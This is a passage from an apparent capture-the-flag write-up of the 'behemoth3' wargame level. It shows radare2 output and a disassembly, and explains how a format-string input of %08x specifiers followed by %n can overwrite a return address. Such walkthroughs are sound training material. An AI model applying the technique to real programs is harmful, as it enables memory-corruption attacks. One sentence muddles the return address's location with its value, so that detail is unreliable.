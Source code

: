 ```bash
0xffffd7cc  6265 6865 6d6f 7468 2f62 6568 656d 6f74  behemoth/behemot
0xffffd7dc  6833 0058 4447 5f53 4553 5349 4f4e 5f49  h3.XDG_SESSION_I
0xffffd7ec  443d 3139                                D=19
[0x080484dc]> 
```
Since we are right before calling `ret`, the address will be the first 4 bytes of the stack (which we can see above in little endian format). We see that the address sits at 0xffffd5fc. Note that the stack address this ret address sits at could change depending on our input passed to the program. We may need to redetermine what this address is as we change our input.

Let's assume for the moment that the return address will stay at address 0xf7e2f637. Since we determined earlier that our input first is found as the sixth word on the stack, we can store an address that we want to modify at that sixth word (or in other words, as the first four bytes as our input string). Then after 5 reads from the stack (%08x.%08x.%08x.%08x.%08x.) the next specifier can be changed to "%n" in order to write to the first four bytes of our input.

Let me attempt to visualize this concept with an example where I print the contents of the stack immediately after passing in our input. 

```bash
behemoth3@behemoth:/behemoth$ r2 -d behemoth3 
Process with PID 29163 started...
= attach 29163 29163
bin.baddr 0x08048000
Using 0x8048000
asm.bits 32
 -- Change your fortune types with 'e cfg.fortunes.type = fun,tips,nsfw' in your ~/.radare2rc
[0xf7fdaa20]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
TODO: esil-vm not initialized
[Cannot determine xref search boundariesr references (aar)
[x] Analyze len bytes of instructions for references (aar)
[x] Analyze function calls (aac)
[x] Use -AA or aaaa to perform additional experimental analysis.
[x] Constructing a function name for fcn.* and sym.func.* functions (aan)
= attach 29163 29163
29163
[0xf7fdaa20]> pdf @ main
            ;-- main:
/ (fcn) sym.main 96
|   sym.main ();
|           ; var int local_4h @ esp+0x4
|           ; var int local_8h @ esp+0x8
|           ; var int local_18h @ esp+0x18
|              ; DATA XREF from 0x08048397 (entry0)
|           0x0804847d      55             push ebp
|           0x0804847e      89e5           mov ebp, esp
|           0x08048480      83e4f0         and esp, 0xfffffff0
|           0x08048483      81ece0000000   sub esp, 0xe0
|           0x08048489      c70424608504.  mov dword [esp], str.Identify_yourself: ; [0x8048560:4]=0x6e656449 ; "Identify yourself: "
|           0x08048490      e89bfeffff     call sym.imp.printf         ; int printf(const char *format)
|           0x08048495      a1a0970408     mov eax, dword [obj.stdin]  ; [0x80497a0:4]=0
|           0x0804849a      89442408       mov dword [local_8h], eax
|           0x0804849e      c7442404c800.  mov dword [local_4h], 0xc8  ; [0xc8:4]=-1 ; 200
|           0x080484a6      8d442418       lea eax, [local_18h]        ; 0x18 ; 24
|           0x080484aa      890424         mov dword [esp], eax
|           0x080484ad      e88efeffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
|           0x080484b2      c70424748504.  mov dword [esp], str.Welcome_ ; [0x8048574:4]=0x636c6557 ; "Welcome, "
|           0x080484b9      e872feffff     call sym.imp.printf         ; int printf(const char *format)
```